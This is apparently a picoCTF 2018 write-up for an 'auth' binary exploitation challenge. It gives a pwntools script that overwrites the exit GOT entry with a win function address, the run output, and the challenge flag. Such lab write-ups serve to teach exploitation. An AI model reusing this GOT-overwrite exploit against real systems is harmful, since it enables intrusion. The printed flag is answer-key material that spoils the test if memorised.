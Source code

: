 # LEVEL GOAL

Can you authenticate to this service and get the flag? Connect with nc 2018shell1.picoctf.com 52918.

# HINTS

What happens if you say something OTHER than yes or no?

# SOLUTION

Code developed:
```
from pwn import *

context(arch='i386', os='linux')

e = ELF('/home/nikhilh/Downloads/auth')

exit_addr = str(hex(e.got['exit']))
win_addr  = str(hex(e.symbols['win']))

s = ssh('nikel', '2018shell1.picoctf.com', password='****')
py = s.run('nc 2018shell1.picoctf.com 27952')
py.recvuntil('\n')
py.sendline(exit_addr)
py.sendline(win_addr)
py.recvuntil('\n')
py.sendline('cat flag.txt')
py.interactive()
py.close()
```

Execution:
```
nikhilh@ubuntu:~/picoctf_18/binary_exploitation$ python auth.py 
[*] '/home/nikhilh/Downloads/auth'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Connecting to 2018shell1.picoctf.com on port 22: Done
[*] nikel@2018shell1.picoctf.com:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.0
    ASLR:     Enabled
[+] Opening new channel: 'nc 2018shell1.picoctf.com 27952': Done
[*] Switching to interactive mode
Okay, writing 0x804854b to 0x804a014
Okay, exiting now...

picoCTF{m4sT3r_0f_tH3_g0t_t4b1e_d496409a}
$ exit
timeout: the monitored command dumped core
[*] Got EOF while reading in interactive
$ exit
[*] Closed SSH channel with 2018shell1.picoctf.com
[*] Got EOF while sending in interactive
```

# FLAG

picoCTF{m4sT3r_0f_tH3_g0t_t4b1e_d496409a}
